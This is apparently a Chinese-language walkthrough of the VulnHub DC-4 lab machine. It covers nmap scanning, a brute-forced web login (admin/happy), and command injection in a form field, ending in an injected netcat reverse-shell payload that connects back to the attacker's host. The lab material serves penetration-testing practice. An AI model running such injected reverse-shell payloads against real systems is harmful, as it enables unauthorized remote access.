 <center>DC-4</center>





[toc]



 [Dvwa](../Dvwa) 



## DC-4

> vulnhub: [dc-4](https://www.vulnhub.com/entry/dc-4,313/)





### 1. 信息收集

```shell
# 扫描网段
nmap -sP 172.16.168.128/24

MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 172.16.168.2
Host is up (0.00025s latency).
MAC Address: 00:50:56:FC:66:6C (VMware)
Nmap scan report for 172.16.168.137

# 全端口扫描
nmap -v -p- --min-rate 5000 -sV -sC 172.16.168.137

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
|_  256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
80/tcp open  http    nginx 1.15.10
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: System Tools
|_http-server-header: nginx/1.15.10
```

> `ip 和端口80：22`







### 2. web端

```shell
# 登陆页面  是否有sql注入，没有其他漏洞就爆破
```

> 打开burp爆破。
>
> 获取用户名和密码`admin/happy`

1. 命令执行

![image-20241129111722807](./assets/image-20241129111722807.png)

> 发送到`Repeater`

```shell
echo $PATH;
# 可以执行的环境变量
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# 添加 /bin目录下的可执行的命令
radio=ls -l /bin&submit=Run

#  发现nc可执行，反弹shell
# kali 开启
nc -l -vv -p 8888

# 反弹shell
radio=nc -nv 172.16.168.128 8888 -e /bin/bash&submit=Run

# 获取到shell了
```


